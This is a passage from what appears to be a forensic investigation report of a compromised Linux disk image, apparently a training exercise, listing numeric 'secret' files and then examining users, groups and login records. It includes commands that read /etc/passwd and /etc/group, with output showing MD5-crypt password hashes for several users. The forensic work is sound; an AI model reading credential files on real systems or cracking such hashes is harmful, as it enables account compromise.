    18281	 3015	25745	20068	10754	22241	   67	20248	 7208	25736
    31625	23152	20225	25503	15161	10501	19679	25573	14688	10815
    17157	27083	  495	  403	 7225	25622	20003	 7036	14350	24377
    27318	 5690	19182	 4720	21703	31309	13033	 8860	14730	32432

    END OF LINE
    /images/sda1/secrets/numbers/39.csv
     2225	31796	21331	10303	22690	25394	15718	13526	26561	28072
    11116	 3342	20344	29865	12068	 9837	19741	 3586	 7248	13972
    29456	32038	 1334	31749	20375	18142	  724	18357	 9593	21421
    17633	 4950	 4700	19716	 9608	12385	16094	 8490	15588	23525
    29814	23017	12346	17170	13577	12793	14584	17540	12364	 5422

    END OF LINE
    /images/sda1/secrets/numbers/40.csv
    14682	23642	  491	17762	12744	29905	  627	 3966	 4059	 8568
     7489	 3789	 3833	27825	 3317	26098	16799	12924	 3688	31835
    19228	32127	 9937	24621	30995	10457	12186	23279	30894	21159
    17408	 9464	 9123	27474	27757	25497	 8424	28063	 9109	24075
    21813	 2932	 4434	 5399	24381	23403	 5952	10632	 7085	21272

    END OF LINE
    /images/sda1/secrets/numbers/41.csv
    18291	 8308	 6332	23902	19027	 1287	  105	 7490	30552	 9481
    20823	26537	15175	29525	19613	 8530	 8278	 5299	13433	18793
     5002	28679	 5899	 5010	 9169	 5434	 2263	 5817	 5855	 9960
     2808	 7320	28617	13006	 6437	24069	17250	 9457	 7013	14337
    30297	16783	14226	 9601	16655	20935	16015	 2554	 5433	28423

    END OF LINE
    /images/sda1/secrets/numbers/42.csv
    22419	20947	20413	 1662	 8232	 6602	 4370	20088	28739	16426
    25364	15126	 2676	15315	23349	18138	28870	16340	 2600	28613
    16572	11707	20031	20613	21261	24735	28548	 8283	 6942	 7402
    24985	17870	  579	12519	18256	26641	15030	 4623	 5129	11061
    18003	  787	26319	  783	11545	 3753	31537	18663	 8033	25367

    END OF LINE
    /images/sda1/secrets/numbers/43.csv
    16400	 4988	  125	 8725	28915	14002	24804	29336	20124	17156
    12030	12471	13484	32116	 2909	20948	 5845	 8571	15806	21906
    20297	11534	22370	 2098	26596	28754	11788	 3760	18968	23838
    31704	 6301	  412	21044	12226	21435	32212	24127	15090	32090
    32255	13964	26313	11637	 5155	23945	32684	14220	27320	13566

    END OF LINE
    /images/sda1/secrets/numbers/44.csv
     3646	 5987	11016	18644	16509	 8254	13445	11785	 9773	13753
    16857	23121	16729	30536	15646	23678	 4033	29802	28325	31357
    29266	 1138	 1753	27643	 4199	20242	27091	 5076	12994	20908
     6332	25664	21064	27993	21734	22973	22144	18869	22698	14522
    16330	 6257	16895	31240	14687	 1430	 2783	 4609	20236	24730

    END OF LINE
    /images/sda1/secrets/numbers/45.csv
    13418	 1940	11089	26206	 4696	18603	29046	23076	 4914	 6109
    26828	28742	 3093	 1474	28940	19050	21970	18794	10898	 9727
    13177	 4596	15816	11580	 5546	22000	11604	23519	18075	15478
     7937	29602	19176	31747	18286	15485	  798	19223	25721	 3231
    23046	16015	29289	21546	 2993	12738	 2013	10417	20808	 5214

    END OF LINE
    /images/sda1/secrets/numbers/46.csv
     8250	12901	31682	27178	12205	31750	11054	 7996	32417	13407
    14039	14006	11739	23054	17951	25867	27806	 1176	19531	12292
    16617	28146	16674	 4388	 6003	 2251	18250	21212	22375	12191
    23650	 5235	30175	14460	28382	 8371	17698	31122	30118	  852
    31646	 2686	25966	 2346	11940	20051	 8147	 5901	15590	 4716

    END OF LINE
    /images/sda1/secrets/numbers/47.csv
    28294	22270	 8248	32088	11885	15770	 8227	14489	 7642	 7034
    17449	30671	28164	28632	 2163	 8140	12652	  505	30999	19997
     2198	13629	 9012	 2549	24196	 4584	31697	 6108	28919	 3758
    22646	23575	 8293	26368	21896	30678	17337	 2585	18021	 3360
    31693	28359	 2884	21887	17063	22522	26826	30571	12919	22030

    END OF LINE
    /images/sda1/secrets/numbers/48.csv
    18281	  429	 6886	20108	31091	14029	 7054	12566	 6854	27802
    13514	22023	20617	23406	20010	  797	12928	13862	27720	 6663
    13647	11696	23388	17622	31852	 8537	26526	32036	20453	 2004
    16223	23042	12759	23817	23270	20643	20394	 8355	 1547	21449
    19213	12632	26517	32243	 5813	 4343	 8789	12867	25301	23859

    END OF LINE
    /images/sda1/secrets/numbers/49.csv
     2774	16822	10171	 6669	19017	30357	25241	 8663	16011	16836
    30681	21207	26988	12634	 6618	 4958	26068	21445	16380	  620
    17483	18274	21521	13990	 9284	10207	19076	28949	 5676	30033
     4423	16292	 4663	20756	  382	19288	 4069	11366	16365	20045
     2646	17602	14370	28020	32083	 2558	 7778	29198	10008	18979

    END OF LINE
    /images/sda1/secrets/numbers/50.csv
     8214	19339	19094	11403	11729	19942	15964	 3577	 5802	31977
     2705	14055	29170	25173	 7874	23981	22873	26817	25307	15011
     4121	29020	16433	 2618	28898	 2401	12107	 5337	20104	31576
    22131	22649	13167	14355	 1281	12287	11186	21348	 5986	 5213
     1558	 4255	 4075	21351	14257	15059	28768	22646	20058	17607

    END OF LINE
    /images/sda1/secrets/numbers/51.csv
     4657	10385	 2938	24598	19040	29198	31784	 1958	27671	 9153
    18306	18046	29059	10599	25824	19217	  134	27550	 3751	25685
    20566	 6998	18242	26893	19669	18423	12769	18388	 5038	11346
    15092	 3048	10035	24138	19558	25276	29433	19775	 2458	28220
    32305	15165	20262	28638	26565	 7401	29266	 6253	 2102	 3111

    END OF LINE
    /images/sda1/secrets/numbers/52.csv
    14211	16139	 9774	11928	23929	 4201	  920	12467	   72	 2372
    30718	 3416	29595	   99	21710	20965	12527	20318	 7163	 4612
    17135	 4292	24764	24504	 2701	 5391	30729	14376	14820	14920
    13526	28974	 8401	 4730	11278	29599	10059	 1240	15438	20056
     4486	21933	21862	28173	27084	16648	15248	 1489	11286	 5155

    END OF LINE
    /images/sda1/secrets/numbers/53.csv
    19820	11905	14459	32277	 7405	19913	10461	27138	12361	17778
     7686	 7987	15493	22449	29223	20940	32656	 6451	24378	10477
    17459	 1169	 4815	21643	14519	18833	12948	 9485	 1107	21538
     7591	  166	18268	18198	30364	21109	29227	26269	16973	20318
     7885	11909	10084	11430	22893	 4148	 6825	 9297	  898	 5217

    END OF LINE
    /images/sda1/secrets/numbers/54.csv
    19513	14131	14989	17975	  819	 6387	 2446	28766	31131	14890
    11335	30053	 9505	13841	 3520	 7872	 5167	30986	24646	 7557
     8369	 2430	11034	17573	  936	  629	 1756	10986	 5486	 7158
    13493	28848	18119	23844	31815	 9571	 7851	21525	31830	 2236
    18645	28529	23091	 9146	  267	21967	31724	30051	26412	22223

    END OF LINE
    /images/sda1/secrets/numbers/55.csv
    17866	 8476	30746	22144	29577	29287	 8809	13466	25619	28185
     4494	19988	29288	 2883	 4395	28569	22455	13882	25186	 2891
    15791	17134	29951	30850	10628	10507	 1892	29509	 3011	26065
    22840	 6020	  215	 8116	23759	21531	 3671	26547	 4952	 4487
    26901	13432	32712	 2150	 4071	29492	23690	  945	18227	19000

    END OF LINE
    /images/sda1/secrets/numbers/56.csv
      619	 4778	14774	20961	 7855	23741	10387	16777	12119	31392
    18088	 5420	 9015	 5089	22210	11443	28701	 4725	 6961	17126
    27035	16280	10106	 7085	14482	21096	 8385	23043	16259	19520
     6389	14777	30613	16085	28857	10480	 4710	22547	27669	32084
    27794	20405	26081	16665	 7428	 4774	19949	21430	11519	18459

    END OF LINE
    /images/sda1/secrets/numbers/57.csv
     2346	28532	22746	 9391	 2352	26519	19249	26970	13803	 5209
     8138	30106	 4914	29200	21995	  878	  187	11004	   78	22947
    31285	27444	26783	12181	15653	 1874	28340	  454	28801	25054
     8074	 8992	10765	15227	16387	 5898	28025	22995	18274	   45
      311	12612	 1410	12291	13598	32071	28889	 8996	30400	29604

    END OF LINE
    /images/sda1/secrets/numbers/58.csv
    31686	14730	17407	 8925	13528	26416	11844	23198	21945	14769
     3286	18666	21222	23207	29994	 3674	29044	  202	21620	30679
     6348	 1274	 3521	22651	 1062	15372	24019	 5704	 4038	 8532
     8384	21899	 7673	 7671	21833	28430	20430	30957	31227	 7424
     3477	15320	 8199	 2725	 6937	 6280	20450	12990	13213	 6987

    END OF LINE
    /images/sda1/secrets/numbers/59.csv
    20695	21210	13930	16394	 6345	15881	 6822	21792	 6128	16190
    22615	30018	 4347	 6169	26987	  427	 7931	 2324	 1580	11154
    15498	18234	 3664	22088	 4537	 4521	30399	32532	13499	 8905
    18466	18126	18771	31049	31280	31038	11005	13534	14263	11826
     3551	  698	22380	24673	17005	21966	 5492	 5634	 2015	26304

    END OF LINE
    /images/sda1/secrets/numbers/60.csv
    18992	22780	 4208	27814	22470	19514	26262	11930	27808	32384
    14951	 9254	15782	24967	12369	15079	23948	 2082	11173	 3058
    11247	32044	14613	31394	 6709	 7472	 9453	29728	25121	24283
    14612	 7091	 2616	13858	24258	28621	21463	32307	 8190	13265
    28433	 5661	17631	10917	 4170	 7230	 2175	28156	17301	29808

    END OF LINE
    /images/sda1/secrets/numbers/61.csv
    20151	12452	23997	11924	 9547	16171	 5235	28419	21871	19091
    28876	 4860	 5117	11763	27015	20149	26557	25992	12240	22835
    14739	22901	18764	11108	15208	 6203	16101	 5371	20952	15606
    27733	17167	27808	32093	15476	 5235	31173	 7031	24130	22483
    24453	14110	16052	20371	10495	15157	21311	 5991	20897	25256

    END OF LINE
    /images/sda1/secrets/numbers/62.csv
    15057	28216	18357	17307	28919	26785	24168	20117	25160	18243
      304	20757	28926	 1552	25259	32320	14293	 9216	16232	15384
    28062	11692	27224	21877	30082	21932	13301	20419	10263	14002
     6191	24705	 8484	 7011	24347	15989	 7732	26617	 7259	19119
    14813	  409	14667	19781	 4046	20341	30193	16840	 5530	12706

    END OF LINE
    /images/sda1/secrets/numbers/63.csv
    22282	15474	27117	11153	 7976	24438	19598	 9084	 9317	10035
    30449	 5022	 5118	14413	18521	10480	32758	 4530	20538	 3207
    18079	19247	32425	27025	26344	 8654	28546	22287	19818	28151
    15451	 8528	26161	24386	  300	12081	32586	 6685	32698	32534
    18449	 4898	 3528	30631	31031	17461	14845	 2123	29078	 5985

    END OF LINE
    /images/sda1/secrets/numbers/64.csv
     1097	14138	 5019	 8326	10260	17720	 5344	23154	10117	24024
    28657	 5762	 6583	14575	 6030	13621	17403	21863	12708	28382
     9148	13294	31374	23599	14867	 4192	 8206	31626	29993	17909
    20490	16136	21328	18986	30470	28485	 7136	27248	27237	28402
    18899	14487	31327	11032	 1056	20985	10177	17453	16344	28006

    END OF LINE
    /images/sda1/secrets/numbers/65.csv
    30070	 1629	25481	 4247	26143	 6391	11943	16015	31755	32550
    19792	27361	25395	17840	26554	31670	25785	 7332	14778	24253
    28613	 9474	 3329	23732	21536	27946	 6937	 6581	 2707	18437
     4893	20038	 9981	27381	16187	 1310	20535	32381	 1515	27064
    22952	 3504	17132	29594	23207	   91	13315	31330	24468	 3057

    END OF LINE
    /images/sda1/secrets/numbers/66.csv
    18493	18717	 5488	28256	16070	25267	25381	 8820	23649	 2886
    10723	29208	  673	16772	30234	22999	22243	10220	 6625	27031
     5182	20049	16070	  114	 4136	 5902	18517	27220	24040	13318
    21353	15193	15552	30562	24117	 1252	15574	29706	25872	16511
    18150	10720	    5	 3189	29354	14783	19735	 5681	22532	23862

    END OF LINE
    /images/sda1/secrets/numbers/67.csv
    12091	28918	   99	  455	 3669	26866	 6537	30782	19182	31275
     9649	31138	   58	27310	13681	27496	 8482	29469	 4625	25179
     6696	12639	30914	 8999	13565	 6664	19870	 8099	 6628	 5255
      612	31969	 2756	11794	11503	28151	13328	 3922	 2427	28556
    12119	 8398	25752	12322	 5034	 2584	10474	12581	12209	30649

    END OF LINE
    /images/sda1/secrets/numbers/68.csv
    14116	 9459	16814	21738	23227	16322	31215	31718	17978	 4272
    24807	10086	13508	20203	 3014	12077	24166	19260	20151	26768
    15841	20451	 5508	20400	26421	 8752	 6921	 2163	15090	  481
    11098	29511	  574	16959	23732	20886	16293	22775	27428	13831
    16547	32441	 8953	15482	15347	15762	 1515	17858	 2198	 2314

    END OF LINE
    /images/sda1/secrets/numbers/69.csv
    25425	12280	12300	17072	 7206	16073	16861	15237	 7789	12826
    11099	16466	27764	21121	17971	 7304	21959	 7259	16359	20798
    27977	 4540	25415	 9986	17687	16158	32174	 4192	 3100	24261
    23554	10547	26996	18163	 7017	24238	12674	 3793	18892	 3112
    20688	 5656	 4620	 6316	 2217	23426	28679	24892	22904	19956

    END OF LINE
    /images/sda1/secrets/numbers/70.csv
    16342	25099	 7500	25785	21205	13265	26274	 8927	23325	16920
     3138	18996	25246	25202	 7629	 6561	10257	16381	31314	 4683
      944	 1904	14696	16510	23480	18408	 2573	10074	25759	 5232
     9026	15163	10517	12882	 8802	 5866	 5565	24608	29510	22405
     1192	  385	 7707	19246	 1174	15293	 5886	24182	22507	20230

    END OF LINE
    /images/sda1/secrets/numbers/71.csv
     2117	 7341	   69	29839	26327	24863	16076	26575	13765	20634
    14254	 6514	 4821	10524	31967	31041	 3981	 3935	22801	 8673
     3678	 8843	32445	 2289	18061	 4027	 7154	 5350	 6885	24886
    24288	13478	12062	 1386	14115	21733	26635	18855	24529	20291
    17031	17569	32322	12066	11549	27812	24994	26697	20602	21909

    END OF LINE
    /images/sda1/secrets/numbers/72.csv
    21260	17388	22864	13205	23637	 6749	15140	22637	 6727	 9472
    18470	 1410	22311	26016	21972	 3513	24873	24040	 9955	27303
    15718	 3250	27794	22715	 3741	29709	  460	 2603	11177	29712
    15360	 7327	 8646	 1634	28097	15776	 7812	 9860	30493	10687
    32135	29413	32701	29317	30212	21156	14017	14110	 9211	11299

    END OF LINE
    /images/sda1/secrets/numbers/73.csv
    19435	12029	27501	31031	 1136	17396	18397	18575	23634	29816
     5495	28002	10077	 1643	28340	 2615	28288	 2739	20885	25093
      516	26822	12859	19619	29577	 5880	 6982	 1526	13253	 2948
    30701	17364	20476	12892	25570	16058	 2879	29617	 7395	 6451
    20324	 5952	29216	20994	12745	 4195	19792	11542	 1991	32467

    END OF LINE
    /images/sda1/secrets/numbers/74.csv
    28591	 8327	14432	16551	 8514	 9055	16269	30181	22907	25153
    22830	14560	18699	17210	14235	28039	22546	 1280	26903	15894
     3660	  428	 2527	 4659	20987	24889	 2806	23499	10644	30652
     6574	21931	27689	19297	29686	 4062	 3225	32297	13671	26057
    27513	 5989	26893	14855	23489	26866	27637	 5125	17975	 3122

    END OF LINE
    /images/sda1/secrets/numbers/75.csv
    31971	32034	19659	10451	16593	19569	21695	 9535	13422	32323
    20675	30921	 1752	 4617	16227	24702	 2305	16718	31467	  474
    22077	27467	 4825	26045	31117	 7754	20483	10029	 7081	23227
    20360	20945	 1487	27671	24696	11305	 1358	29560	 4163	27022
    31697	32757	 4578	32749	10348	20671	27591	 7491	30056	 7421

    END OF LINE
    /images/sda1/secrets/numbers/76.csv
    29939	 7392	26649	 4546	 8133	30938	 4730	 8467	30822	14706
    15665	23772	31492	 4748	26996	17307	13777	14772	 8985	21693
    18030	13601	27111	 3584	16918	 7789	25497	25225	29835	21778
     8881	 1988	 8641	23716	 3587	13312	13899	25297	13564	10950
     4745	10520	 7351	13052	23695	20044	20926	21182	 1236	13256

    END OF LINE
    /images/sda1/secrets/numbers/77.csv
    31168	29309	 8628	11495	28426	20999	31036	25272	 2395	18864
    10877	28557	 1705	16401	18126	24997	31986	16893	16023	12910
    12808	 3165	 7175	10692	 9247	22475	15483	14567	 3863	16881
    13481	 2366	31370	28832	19344	15054	 7317	19119	14368	 3705
     7527	25242	 3497	30710	 1931	28374	  772	21396	28917	27637

    END OF LINE
    /images/sda1/secrets/numbers/78.csv
    17717	21366	25010	24746	28950	20424	29699	 1881	 2015	21853
      579	25012	 8749	 2105	26067	15515	 2988	 5781	25354	20499
    17493	 1899	17104	11949	22888	26048	27133	16312	21033	21684
     2671	12326	11354	22602	18925	 1599	 9339	24312	31423	17415
    17860	22510	16905	17520	32222	25126	18411	16192	12389	24624

    END OF LINE
    /images/sda1/secrets/numbers/79.csv
    23673	22312	23393	19407	14356	16157	11013	 7376	13834	11158
    25820	12696	27196	10207	 7482	 1691	29404	15910	14099	28774
    11452	25558	 3877	25947	24657	20405	11749	10025	13194	 5564
    11307	 2062	27731	 9402	13980	18380	20455	  423	23515	17516
    10970	23753	 4463	31414	19938	23689	 7026	 4715	 2921	14866

    END OF LINE
    /images/sda1/secrets/numbers/80.csv
     1378	23493	 4519	 8465	24844	10102	31676	15508	 7166	 3097
    20232	 6023	29168	29292	30389	 6443	14159	28507	27733	26481
     4753	14382	 5789	 1283	28506	11634	22499	17422	 1872	10409
     2137	 6609	 7359	30897	22535	 7911	17132	14580	21642	18516
    20537	28501	 3726	 9553	22013	 7381	 6925	11736	14880	11529

    END OF LINE
    /images/sda1/secrets/numbers/81.csv
     3162	22897	 7726	18797	16142	20312	17669	26912	 8855	23591
      683	31484	25365	21354	28932	16707	13959	 8998	14814	32063
    30545	25254	 3021	14573	27246	  514	  197	32616	11636	26228
    21116	12311	 2125	32602	30845	22678	 7855	 8202	 3084	16741
    15712	10842	 3517	 6483	16172	21994	26835	27560	17825	 8248

    END OF LINE
    /images/sda1/secrets/numbers/82.csv
    29382	15818	12172	 8657	29359	21779	 5419	  574	27756	20949
    26184	11130	31451	31017	31957	25886	16031	17884	 1631	 1172
    21695	28889	  523	22884	 6909	 5206	 8786	 4669	24056	21953
     3708	26310	19713	17001	16349	 4642	20413	19181	30418	27205
     6527	 2405	  891	 8186	 5730	15954	24117	29616	 3625	12358

    END OF LINE
    /images/sda1/secrets/numbers/83.csv
    30353	 2690	 9897	 1236	 6687	11769	16449	23261	27005	23409
    19550	23039	17237	23581	19748	13273	 5826	 3435	16410	14744
    21988	20116	20887	10481	 1315	11269	23277	19674	29508	25713
     5970	28171	26157	 9139	15250	20280	18552	 3941	23671	12555
     9146	  320	20468	 6627	29584	 2874	29972	23887	 7533	 8537

    END OF LINE
    /images/sda1/secrets/numbers/84.csv
    14682	27528	19498	 1928	 3824	14110	31745	 4498	12915	27883
     5017	25030	 7041	19689	 3838	 9108	 2658	29039	15094	 3772
    18900	31495	27049	15500	16787	 7694	17933	 5334	 9642	28174
    29203	 3763	20092	  732	23443	16635	 1425	21360	29688	32383
    21282	25223	13995	31245	 6243	 6394	10816	11809	  659	27100

    END OF LINE
    /images/sda1/secrets/numbers/85.csv
    18330	 8282	10942	11859	23917	30925	24094	14509	19945	26918
    12548	12378	 3566	27269	10340	10966	22260	 1029	27075	26449
    14058	 4960	 5234	 5436	16850	29794	29320	30616	16665	13071
    15776	28921	31927	13459	29527	17500	31243	  750	30084	 5807
    19572	10076	29238	32025	21423	16261	20335	 9229	 1011	14697

    END OF LINE
    /images/sda1/secrets/numbers/86.csv
    19682	 3587	21243	11679	28677	30094	31533	23792	10434	 7377
    29248	 3911	 8660	20741	 9804	 9583	15350	18885	 1232	16135
    20000	19102	27467	13548	11649	20825	 1434	20071	14651	23815
    13845	 7447	26081	 6609	25448	11165	 1201	32125	18481	27401
    17041	 8383	 8286	 2824	 6859	24901	20548	10442	14728	 6272

    END OF LINE
    /images/sda1/secrets/numbers/87.csv
     4368	28891	 1405	 2311	 1402	20334	 6863	 9734	11339	20793
    20645	 1501	21365	 1725	 1353	  804	17527	32232	28480	28661
    20583	 2867	17975	27244	 4289	 2171	 3756	31970	26865	 9633
    29789	 1508	 5282	 9952	24433	 9205	20164	11505	12391	 8456
    23904	25312	20162	 6588	 3611	11692	30321	23637	28555	14753

    END OF LINE
    /images/sda1/secrets/numbers/88.csv
    11560	30185	 4888	 4795	32220	21332	18319	14012	21633	26971
     1321	 9860	  597	32530	 2447	16322	31850	28576	16433	12944
     9269	13793	15274	 7280	 3284	 5565	23025	22279	18722	32582
    32581	30363	 3709	 1940	 5079	13390	14418	 4960	12340	16408
    30829	 3939	 9337	13958	16386	21100	17973	13876	11642	 1348

    END OF LINE
    /images/sda1/secrets/numbers/89.csv
     8059	 5280	25260	20397	14057	 7329	 1638	28421	24817	27943
    22017	 6918	12270	14408	20858	22637	22642	23342	16386	 1998
    31525	22727	21297	11804	12388	21296	16906	14839	12693	12255
     6067	20921	15436	21138	12785	30270	 2847	 6907	11109	 1655
       73	 4392	11656	28590	24065	27828	26216	 5782	10392	25264

    END OF LINE
    /images/sda1/secrets/numbers/90.csv
     2497	13651	29037	31337	11619	27654	19013	14695	 5381	15009
    20735	 2405	 7391	 3412	25539	 2642	 5019	20505	29614	 2295
    19922	  640	 6838	21917	30029	15416	13121	22907	 4088	28252
    19845	 5862	31397	28035	 7838	   55	21383	 4230	17776	20859
     4201	28687	  322	22750	15537	 4838	13847	22996	 6936	 4859

    END OF LINE
    /images/sda1/secrets/numbers/91.csv
      211	 2163	27527	 9532	11763	22965	11523	21959	30334	19296
     6859	 8633	16312	16292	 2583	 9304	16028	29108	23348	15603
     6351	25157	29270	 9666	10311	 4036	28963	 7291	19898	30298
    31995	30900	32201	 5024	 7689	19452	29929	27170	  779	26551
    15893	16533	13793	25789	30774	 6360	 3287	 2226	 1613	 6829

    END OF LINE
    /images/sda1/secrets/numbers/92.csv
     5495	 7637	29160	30630	16827	20677	 4198	15712	29632	22766
    24630	14565	16175	21203	17418	 5988	28603	19579	11496	 1886
    24096	15543	 3457	24266	 6367	 9010	10066	30729	23734	 7485
     3452	29068	 6369	31575	31076	15431	31507	 9087	19722	 9428
    16179	19514	24362	17256	16087	23651	27925	32374	31873	31670

    END OF LINE
    /images/sda1/secrets/numbers/93.csv
     9643	21797	13979	14926	10458	 6927	 7888	 3712	30599	20085
    14734	24169	 9938	29223	24691	18809	21381	 1212	12093	17192
    21234	22075	26117	11898	 5512	 3212	13115	 9813	 5944	  673
     8549	32386	31114	28259	 9367	18821	 9085	31071	  945	28445
      803	14381	 6491	 8089	19705	11428	10433	12257	21767	16063

    END OF LINE
    /images/sda1/secrets/numbers/94.csv
    30826	21638	28703	28295	10178	31508	24753	 2926	24080	 6924
    26288	15741	17879	28743	14456	15615	23802	12624	29335	  678
    10761	26814	11252	17991	31310	 2133	 8380	11608	29845	 4572
     8208	25899	 3263	29116	10351	 9448	 9222	26461	24293	21324
    25101	 5952	19697	19492	 4783	 8924	 4407	  391	 5252	25146

    END OF LINE
    /images/sda1/secrets/numbers/95.csv
     8756	21986	32030	16370	28562	14873	24333	 7213	16437	13335
     5099	 9783	 6127	18187	30322	21145	19382	26334	10883	29985
    20510	11006	26118	20111	29594	25066	27524	18690	  114	20862
     4741	 3877	  643	12284	31147	27160	11450	 8670	16011	 4640
     6735	18526	22351	24079	26561	11457	27148	32114	24468	 5223

    END OF LINE
    /images/sda1/secrets/numbers/96.csv
     3375	31250	10018	29534	 8032	22308	24530	 7581	15852	14371
    30364	 9319	 3163	26121	18155	31886	 3301	21906	22056	 6877
    15040	  407	21735	23507	32042	 3884	 1748	11039	16182	 6008
    15707	 9947	14422	13143	20762	14985	12716	 9393	17928	28110
    21520	14744	 1634	25328	19168	17700	24665	16657	18315	18958

    END OF LINE
    /images/sda1/secrets/numbers/97.csv
     7631	12976	32132	 6715	 5937	11847	25123	11229	25660	25340
    29706	10059	 1962	  170	13375	24813	13408	16352	 7375	24680
     1368	 6493	 2206	14964	18512	31051	19440	11387	18228	27196
    18867	22007	15436	29669	 4498	11144	23845	10653	21178	32728
    10305	 9363	12138	15919	24958	26066	15677	13013	26951	23542

    END OF LINE
    /images/sda1/secrets/numbers/98.csv
    18200	25539	18455	 6017	 4715	 2109	 6738	12822	11229	19679
    16201	10576	 4442	10026	22678	26709	30705	12708	15704	25789
    32267	22370	11473	13057	17769	11354	 3776	30114	12511	32357
    23935	 4889	16850	27415	 5597	24194	20851	 1599	18617	 7943
     8632	23868	10851	 8717	  543	25350	15282	17441	 1058	 4344

    END OF LINE
    /images/sda1/secrets/numbers/99.csv
    23038	 4803	 8269	 3834	11135	 6807	11679	21964	30876	18025
     3966	25253	 2799	18191	16236	 5498	 2560	 2694	23891	19728
    19314	18096	 2458	26132	31216	29648	21481	 4092	16085	29377
    19133	 5019	23198	23289	30635	26503	22544	11329	21619	11819
    17960	24626	 1228	31147	 9415	 5999	24809	29051	28698	24228

    END OF LINE
    /images/sda1/secrets/numbers/100.csv
     7828	27516	28754	30837	25069	19700	 7496	 7122	12024	16057
    18865	17159	31722	 8291	27240	 8552	27958	23156	 5417	25717
    22275	24916	 3548	 1345	26958	27667	23713	21379	29407	23261
    14495	 5757	26349	 2364	21388	24465	 4496	 2065	20988	27292
     9963	31568	31851	10265	 6421	 6014	29961	19703	24780	31468

    END OF LINE
    /images/sda1/secrets/numbers/NOTICE
    THIS DATA MUST NOT FALL INTO THE WRONG HANDS
    /images/sda1/secrets/other
    /images/sda1/secrets/other/secret.data

    !REMOVED FROM REPORT, Binary data!
    #+END_SRC

*** Look for users

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd /images/sda1
      ls -la home/
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    total 36
    drwxrwsr-x  9 root  staff 4096 2007-09-10 04:21 .
    drwxr-xr-x 21 root  root  4096 2007-09-10 03:07 ..
    drwxr-xr-x  2  1004  1004 4096 2007-09-10 03:11 bill
    drwxr-xr-x  2  1001  1001 4096 2007-09-10 04:03 fred
    drwxr-xr-x  2  1005  1005 4096 2007-09-10 03:13 guest
    drwxr-xr-x  4  1006  1006 4096 2007-09-10 04:26 jake
    drwxr-xr-x  2  1003  1003 4096 2007-09-10 04:03 jane
    drwxr-xr-x  2 tuser  1000 4096 2007-09-10 02:56 john
    drwxr-xr-x  2  1002  1002 4096 2007-09-10 04:27 mike
    #+END_SRC

    How about with =passwd=?

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     cat /images/sda1/etc/passwd
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    root:$1$vp2jt2uc$jRjAN0EvFBHbtiBY33fSW/:0:0:root:/root:/bin/bash
    daemon:*:1:1:daemon:/usr/sbin:/bin/sh
    bin:*:2:2:bin:/bin:/bin/sh
    sys:*:3:3:sys:/dev:/bin/sh
    sync:*:4:100:sync:/bin:/bin/sync
    games:*:5:100:games:/usr/games:/bin/sh
    man:*:6:100:man:/var/cache/man:/bin/sh
    lp:*:7:7:lp:/var/spool/lpd:/bin/sh
    mail:*:8:8:mail:/var/mail:/bin/sh
    news:*:9:9:news:/var/spool/news:/bin/sh
    uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:*:13:13:proxy:/bin:/bin/sh
    postgres:*:31:32:postgres:/var/lib/postgres:/bin/sh
    www-data:*:33:33:www-data:/var/www:/bin/sh
    backup:*:34:34:backup:/var/backups:/bin/sh
    operator:*:37:37:Operator:/var:/bin/sh
    list:*:38:38:SmartList:/var/list:/bin/sh
    irc:*:39:39:ircd:/var:/bin/sh
    gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:*:65534:65534:nobody:/home:/bin/sh
    john:$1$kj5qXZbQ$ZoULHcRveDDHzsOsTUVwd0:1000:1000:John Finkelstein,,,:/home/john:/bin/bash
    identd:!:100:65534::/var/run/identd:/bin/false
    sshd:!:101:65534::/var/run/sshd:/bin/false
    fred:$1$hzYlBK./$HB93670uewrh68H.1JfL3.:1001:1001:Hank Snow,,,:/home/fred:/bin/bash
    mike:$1$UO8.DgZE$jgLudTIzf7wR7PDuob47M1:1002:1002:Mike DeJesus,,,:/home/mike:/bin/bash
    jane:$1$z8E1XOpC$C2sstT/mpixW1DjY06ouP0:1003:1003:Jane Wei,,,:/home/jane:/bin/bash
    bill:$1$iM.H9CLO$t/wfgA6Ss12UJlkA6rIle.:1004:1004:Bill Boyardee,,,:/home/bill:/bin/bash
    guest:$1$t4fC1TfN$3gSwUWOK8nMsX9bf61khq/:1005:1005:Yoyodyne Guest,,,:/home/guest:/bin/bash
    jake:$1$WkuB0RMS$3IJwa3BO27vxjFwv4wVr./:1006:1006:S. Kiddie,,,,Pwned!:/home/jake:/bin/bash
    #+END_SRC

    The user *jake* look suspicious.

*** Look for groups

    Look at the groups file.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cat /images/sda1/etc/group
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    root:*:0:jake
    daemon:*:1:
    bin:*:2:
    sys:*:3:
    adm:*:4:
    tty:*:5:
    disk:*:6:
    lp:*:7:lp
    mail:*:8:
    news:*:9:
    uucp:*:10:
    proxy:*:13:
    kmem:*:15:
    dialout:*:20:
    fax:*:21:
    voice:*:22:
    cdrom:*:24:
    floppy:*:25:
    tape:*:26:
    sudo:*:27:
    audio:*:29:
    dip:*:30:
    postgres:*:32:
    www-data:*:33:
    backup:*:34:
    operator:*:37:
    list:*:38:
    irc:*:39:
    src:*:40:
    gnats:*:41:
    shadow:*:42:
    utmp:*:43:
    video:*:44:
    staff:*:50:
    games:*:60:
    users:*:100:
    nogroup:*:65534:
    john:x:1000:
    secretive:x:101:john,hank,jane,root,jake
    fred:x:1001:
    mike:x:1002:
    jane:x:1003:
    bill:x:1004:
    guest:x:1005:
    jake:x:1006:
    #+END_SRC

    It look suspicious that the user *jake* belongs to the *root* group.

*** Look at lastlog

    Lastlog is a logfile that shows the last time a user logged in.

    #+CAPTION: Commands (Needs to be executed in a shell)
    #+BEGIN_SRC sh
      sudo chroot /images/sda1/
      lastlog
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
      Username         Port     From             Latest
      root             tty1                      Mon Sep 10 04:32:26 -0700 2007
      daemon                                     **Never logged in**
      bin                                        **Never logged in**
      sys                                        **Never logged in**
      sync                                       **Never logged in**
      games                                      **Never logged in**
      man                                        **Never logged in**
      lp                                         **Never logged in**
      mail                                       **Never logged in**
      news                                       **Never logged in**
      uucp                                       **Never logged in**
      proxy                                      **Never logged in**
      postgres                                   **Never logged in**
